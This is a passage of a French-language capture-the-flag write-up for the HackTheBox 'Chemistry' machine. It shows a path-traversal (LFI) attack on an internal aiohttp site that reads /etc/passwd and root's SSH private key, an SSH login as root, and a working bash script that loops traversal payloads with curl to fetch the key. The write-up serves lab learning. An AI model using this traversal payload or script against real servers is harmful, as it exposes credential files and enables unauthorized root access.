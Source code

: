 Le répertoire `static` n'est pas présent sur notre cible.

![no static directory](/images/HTB-Chemistry/no_static_dir.png)

Nous utilisons gobuster pour découvrir les répertoires cachés sur le site web interne et trouvons `/assets`.

![directory brute forcing on internal website](/images/HTB-Chemistry/gobuster_internal_website.png)

La vulnérabilité est exploitée par LFI et nous pouvons la tester. Après avoir capturé une requête, nous exploitons avec succès la vulnérabilité LFI pour lire le fichier `/etc/passwd`.

![LFI vulnerability](/images/HTB-Chemistry/LFI_vuln.png)

En ajustant le payload à `/assets/../../../../root/.ssh/id_rsa` nous obtenons la clé SSH root.

![root SSH key leaked](/images/HTB-Chemistry/root_ssh_key.png)

Avec cette clé, nous pouvons maintenant nous connecter en tant que root.

```
ssh -i id_rsa root@chemistry.htb
```

![root flag](/images/HTB-Chemistry/root_flag.png)

### LFI automatique

Nous modifions le script de l'exploit pour qu'il fonctionne sur notre cible

> Nous changeons le numéro de port dans `url`, les valeurs `payload` et `file`.

```bash
#!/bin/bash

url="http://localhost:8080"
string="../"
payload="/assets/"
file="root/.ssh/id_rsa" # without the first /

for ((i=0; i<15; i++)); do
    payload+="$string"
    echo "[+] Testing with $payload$file"
    status_code=$(curl --path-as-is -s -o /dev/null -w "%{http_code}" "$url$payload$file")
    echo -e "\tStatus code --> $status_code"
    
    if [[ $status_code -eq 200 ]]; then
        curl -s --path-as-is "$url$payload$file"
        break
    fi
done
```

![automated LFI in AioHTTP](/images/HTB-Chemistry/auto_LFI.png)








